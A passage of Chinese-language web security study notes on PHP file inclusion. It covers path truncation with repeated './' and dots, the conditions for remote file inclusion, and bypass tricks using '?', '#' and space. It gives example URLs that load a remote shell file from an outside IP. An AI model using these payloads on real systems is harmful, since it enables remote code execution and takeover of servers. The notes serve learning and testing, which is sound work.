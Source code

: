       ```
      /action.php?action=phpinfo.php/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
      ```

3. 点号截断

   1. 满足条件

      * Windows下要长于**198字符**，超出部分会被丢弃
      * **php < 5.3.4**
      * 操作系统版本要是**低版本(例如Win7)**

   2. 形式

      ```
      /action.php?action=phpinfo.php.....................................................................................................................................................................................................................................................
      ```

##### c. 远程包含(RFI)

* 能够**包含远程服务器上的文件并执行**，可以通过http(s)、ftp等方式，远程加载文件

###### ①条件

1. **allow_url_include = On**		(默认为Off)
2. allow_url_fopen = On   (是否允许打开远程文件)
3. 用户可以**动态控制变量**

###### ②例子

```php
[URL]?file= http://ip/info.php		//通过http协议加载目标机中的info.php文件
[URL]?file= ftp://用户名:密码@ip/info.php	//通过ftp协议加载目标机中的info.php文件
```

<img src="C:/Users/26254/AppData/Local/Temp/QQ_1725696213402.png" alt="QQ_1725696213402" style="zoom:50%;" />

###### ③绕过

1. 问号(``?``)绕过

   ```php
   [URL]?file=http://192.168.172.150/shell.asp?
   ```

2. 井号(``#``)绕过

   ```php
   [URL]?file=http://192.168.172.150/shell.asp%23
   ```

3. 空格绕过

   ```php
   [URL]?file=http://192.168.172.150/shell.asp%20
   	or
   [URL]?file=http://192.168.172.150/shell.asp+
   ```
